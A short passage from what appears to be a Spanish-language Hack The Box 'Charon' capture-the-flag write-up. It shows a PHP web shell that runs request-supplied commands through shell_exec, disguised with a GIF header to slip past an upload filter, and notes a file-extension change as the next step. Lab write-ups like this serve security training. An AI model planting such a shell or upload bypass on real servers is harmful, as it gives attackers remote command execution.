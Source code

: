 ![""](/assets/images/htb-charon/charon-web8.png)

Vamos a cambiar la cabezara de nuestro archivo para que sea considerado como un GIF.

```php
GIF8;
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Pero vemos que nos sigue mandanlo lo mismo, por lo que cambiaremos la extensión de nuestro archivo.

![""](/assets/images/htb-charon/charon-web9.png)

